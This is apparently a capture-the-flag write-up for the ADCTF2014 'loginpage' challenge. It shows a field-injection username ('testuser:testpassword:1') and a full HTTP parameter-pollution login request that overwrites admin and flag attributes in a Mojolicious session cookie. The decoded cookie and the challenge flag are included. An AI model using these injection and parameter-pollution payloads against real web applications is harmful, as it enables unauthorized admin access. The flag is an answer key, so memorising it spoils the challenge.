 ### Solved by historypeats

>You can't guess LOGINPAGE_SECRET absolutely, it's not answer. So, maybe there are some vulnerability and you got an admin and flag.

>I wrote this web app on Oct. 28 2014. Perl is awesome language and I love it :)

>http://loginpage.adctf2014.katsudon.org/

WriteUp:

This challenge required is to login as an "admin" user as well as have the give_me_flag bit set to True. The give_me_flag and isadmin values are stored in the user's cookie when they authenticate. So we need to find a way to manipulate this information for both isadmin and give_me_flag to be True so we get the Flag. 

The first thing I noticed is that the user's credentials and admin rights are stored in a file with a semi-colon delimiter. So the format of user entries in the file looks like the following:

```text
username:password:isadmin
```

The easy way to exploit this is to create a user with the username with all the fields we want. For example, in the user registration page, our username field would be "testuser:testpassword:1" and the password field would be kept blank.

This successfully worked, and we can login as admin. However, the next condition we must meet in order to get the Flag is to have the give_me_flag value set to True in our cookie. I spent some time tinkering with this, including trying to find known vulnerabiilties with the Mojolicious framework and length-extension attacks (This obviously didn't work since there's an HMAC, but I thought I'd try anyway).

None of the options I attempted worked. However, I did stumble upon a cool blogpost (http://blog.gerv.net/2014/10/new-class-of-vulnerability-in-perl-web-applications/) on a "new" vulnerability surfacing in Perl web frameworks. Basically, using HTTP parameter pollution, you can override/create attributes in objects. In this case, we want to override both the isadmin and give_me_flag attributes to be True.

So in the end, we create a regular user, the login with the following tampered request:

```text
POST /login HTTP/1.1
Host: loginpage.adctf2014.katsudon.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:34.0) Gecko/20100101 Firefox/34.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://loginpage.adctf2014.katsudon.org/login
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

name=hey&pass=dude&pass=1&pass=things&pass=give_me_flag&pass=give_me_flag&pass=money&pass=2&pass=3&pass=admin&pass=admin
```

And we are returned the following cookie in the response:

```text
HTTP/1.1 302 Found
Server: nginx
Date: Fri, 19 Dec 2014 19:01:18 GMT
Content-Length: 0
Connection: keep-alive
Set-Cookie: mojolicious=eyJ1c2VyIjp7ImFkbWluIjoiZ2l2ZV9tZV9mbGFnIiwibW9uZXkiOiIyIiwiMyI6ImFkbWluIiwiZ2l2ZV9tZV9mbGFnIjoiZ2l2ZV9tZV9mbGFnIiwibmFtZSI6ImhleSIsIjAiOm51bGwsIjEiOiJ0aGluZ3MiLCJwYXNzIjoiZHVkZSJ9LCJleHBpcmVzIjoxNDE5MDE5Mjc4fQ----e6cecbe13fb30a8dd08b1caae74f6eb5ad4b09e1; expires=Fri, 19 Dec 2014 20:01:18 GMT; path=/; HttpOnly
Location: /
```

Decoding the cookie, we can see we've successfully poisoned the attributes:

```text
{"user":{"admin":"give_me_flag","money":"2","3":"admin","give_me_flag":"give_me_flag","name":"hey","0":null,"1":"things","pass":"dude"},"expires":1419019278}
```

Then we are redirected to index page and returned the Flag:

ADCTF_L0v3ry_p3rl_c0N73x7
